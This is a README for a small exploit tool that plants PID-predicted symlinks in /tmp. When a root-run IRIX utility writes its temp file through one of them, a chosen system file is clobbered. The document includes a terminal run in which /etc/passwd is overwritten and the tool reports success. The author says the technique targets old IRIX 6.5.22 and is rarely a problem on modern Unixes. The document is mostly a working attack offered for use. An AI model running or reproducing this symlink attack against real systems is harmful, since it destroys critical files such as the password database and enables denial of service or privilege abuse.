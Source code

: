 I've been looking around on my SGI Indy running IRIX 6.5.22 checking system utitlities for the use of /tmp.  I've noticed some scripts
using $$ to generate a unique file name in /tmp. I wrote this simple tool to generate links in /tmp in an attempt to clobber
files if the root user were to run any of the vulnerable utitliies.

This code creates an x number of symlinks using the pid in the filename in order to clobber system files by linking to them when programs use /tmp in an insecure manner. This isn't really a problem on modern day unixes.  I've developed and tested it on an SGI Indy R5000 running IRIX 6.5.22.  After running it monitors the target file's modification time to determine if the exploitation succeeded. 

larry@mathom:~/code/symlinker$ ./symlink 10 to_dos /etc/passwd
Starting from our own process id: 259857
Symlinking /tmp/to_dos259857->/etc/passwd
Symlinking /tmp/to_dos259858->/etc/passwd
Symlinking /tmp/to_dos259859->/etc/passwd
Symlinking /tmp/to_dos259860->/etc/passwd
Symlinking /tmp/to_dos259861->/etc/passwd
Symlinking /tmp/to_dos259862->/etc/passwd
Symlinking /tmp/to_dos259863->/etc/passwd
Symlinking /tmp/to_dos259864->/etc/passwd
Symlinking /tmp/to_dos259865->/etc/passwd
Symlinking /tmp/to_dos259866->/etc/passwd
Symlinking /tmp/to_dos259867->/etc/passwd
Waiting on a write to one of our predicted links in /tmp or pid to grow past the links we created.
[+] The target file /etc/passwd has been over written!
[+] Modification time changed from Fri Oct 25 13:31:44 2019 to Sun Oct 27 02:39:16 2019

Cleaning up....
Unlinking -> /tmp/to_dos259867
Unlinking -> /tmp/to_dos259866
Unlinking -> /tmp/to_dos259865
Unlinking -> /tmp/to_dos259864
Unlinking -> /tmp/to_dos259863
Unlinking -> /tmp/to_dos259862
Unlinking -> /tmp/to_dos259861
Unlinking -> /tmp/to_dos259860
Unlinking -> /tmp/to_dos259859
Unlinking -> /tmp/to_dos259858
Unlinking -> /tmp/to_dos259857
